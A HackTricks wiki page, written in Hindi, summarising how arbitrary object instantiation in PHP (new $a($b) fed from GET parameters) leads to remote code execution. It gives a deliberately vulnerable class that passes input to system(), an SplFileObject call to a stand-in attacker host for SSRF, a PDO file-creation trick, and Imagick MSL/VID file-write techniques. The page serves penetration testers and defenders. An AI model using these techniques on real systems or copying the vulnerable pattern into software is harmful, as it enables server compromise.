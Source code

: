 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

यह मूल रूप से [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) का सारांश है।

## परिचय

नई मनमानी वस्तुओं का निर्माण, जैसे `new $_GET["a"]($_GET["a"])`, दूरस्थ कोड निष्पादन (RCE) का कारण बन सकता है, जैसा कि एक [**लेख**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) में विस्तृत किया गया है। यह दस्तावेज़ RCE प्राप्त करने के लिए विभिन्न रणनीतियों को उजागर करता है।

## कस्टम कक्षाओं या ऑटोलोडिंग के माध्यम से RCE

`new $a($b)` का सिंटैक्स एक वस्तु को प्रारंभ करने के लिए उपयोग किया जाता है जहाँ **`$a`** कक्षा का नाम दर्शाता है और **`$b`** कंस्ट्रक्टर को पास किया गया पहला तर्क है। ये चर उपयोगकर्ता इनपुट जैसे GET/POST से प्राप्त किए जा सकते हैं, जहाँ वे स्ट्रिंग या एरे हो सकते हैं, या JSON से, जहाँ वे अन्य प्रकार के रूप में प्रस्तुत हो सकते हैं।

नीचे दिए गए कोड स्निपेट पर विचार करें:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
इस उदाहरण में, `$a` को `App` या `App2` पर सेट करना और `$b` को एक सिस्टम कमांड (जैसे, `uname -a`) पर सेट करना उस कमांड के निष्पादन का परिणाम देता है।

**ऑटोलोडिंग फ़ंक्शन** का लाभ उठाया जा सकता है यदि ऐसी कोई कक्षाएँ सीधे सुलभ नहीं हैं। ये फ़ंक्शन आवश्यकतानुसार फ़ाइलों से कक्षाओं को स्वचालित रूप से लोड करते हैं और इन्हें `spl_autoload_register` या `__autoload` का उपयोग करके परिभाषित किया जाता है:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
PHP संस्करणों के साथ ऑटोलोडिंग का व्यवहार भिन्न होता है, जो विभिन्न RCE संभावनाएँ प्रदान करता है।

## अंतर्निहित कक्षाओं के माध्यम से RCE

कस्टम कक्षाओं या ऑटोलोडर्स की कमी में, **अंतर्निहित PHP कक्षाएँ** RCE के लिए पर्याप्त हो सकती हैं। इन कक्षाओं की संख्या PHP संस्करण और एक्सटेंशन के आधार पर 100 से 200 के बीच होती है। इन्हें `get_declared_classes()` का उपयोग करके सूचीबद्ध किया जा सकता है।

रिफ्लेक्शन API के माध्यम से रुचि के कंस्ट्रक्टर्स की पहचान की जा सकती है, जैसा कि निम्नलिखित उदाहरण और लिंक [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF) में दिखाया गया है।

**विशिष्ट विधियों के माध्यम से RCE में शामिल हैं:**

### **SSRF + Phar Deserialization**

`SplFileObject` कक्षा अपने कंस्ट्रक्टर के माध्यम से SSRF को सक्षम बनाती है, जो किसी भी URL से कनेक्शन की अनुमति देती है:
```php
new SplFileObject('http://attacker.com/');
```
SSRF पुराने PHP संस्करणों में 8.0 से पहले deserialization हमलों का कारण बन सकता है, जो Phar प्रोटोकॉल का उपयोग करता है।

### **PDOs का शोषण करना**

PDO क्लास कंस्ट्रक्टर DSN स्ट्रिंग्स के माध्यम से डेटाबेस से कनेक्शन की अनुमति देता है, जो फ़ाइल निर्माण या अन्य इंटरैक्शन को सक्षम कर सकता है:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP के 5.3.22 और 5.4.12 तक के संस्करण `SoapClient` और `SimpleXMLElement` कंस्ट्रक्टर्स के माध्यम से XXE हमलों के प्रति संवेदनशील थे, जो libxml2 के संस्करण पर निर्भर करते हैं।

## RCE via Imagick Extension

एक **प्रोजेक्ट की निर्भरताओं** के विश्लेषण में, यह पाया गया कि **Imagick** का उपयोग **कमांड निष्पादन** के लिए नए ऑब्जेक्ट्स को इंस्टेंटिएट करके किया जा सकता है। यह कमजोरियों का शोषण करने का एक अवसर प्रस्तुत करता है।

### VID parser

फाइल सिस्टम में किसी निर्दिष्ट पथ पर सामग्री लिखने की VID parser क्षमता की पहचान की गई। इससे एक वेब-एक्सेसिबल डायरेक्टरी में PHP शेल रखने की संभावना बनती है, जिससे Remote Code Execution (RCE) प्राप्त होता है।

#### VID Parser + File Upload

यह noted किया गया है कि PHP अस्थायी रूप से अपलोड की गई फ़ाइलों को `/tmp/phpXXXXXX` में स्टोर करता है। Imagick में VID parser, **msl** प्रोटोकॉल का उपयोग करते हुए, फ़ाइल पथ में वाइल्डकार्ड को संभाल सकता है, जिससे अस्थायी फ़ाइल को चुने हुए स्थान पर स्थानांतरित करना संभव होता है। यह विधि फाइल सिस्टम में मनमाने फ़ाइल लेखन को प्राप्त करने के लिए एक अतिरिक्त दृष्टिकोण प्रदान करती है।

### PHP Crash + Brute Force

[**मूल लेख**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) में वर्णित एक विधि में ऐसी फ़ाइलें अपलोड करना शामिल है जो हटाने से पहले सर्वर क्रैश को ट्रिगर करती हैं। अस्थायी फ़ाइल के नाम को ब्रूट-फोर्स करके, Imagick के लिए मनमाना PHP कोड निष्पादित करना संभव हो जाता है। हालाँकि, यह तकनीक केवल ImageMagick के एक पुराने संस्करण में प्रभावी पाई गई।

## References

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
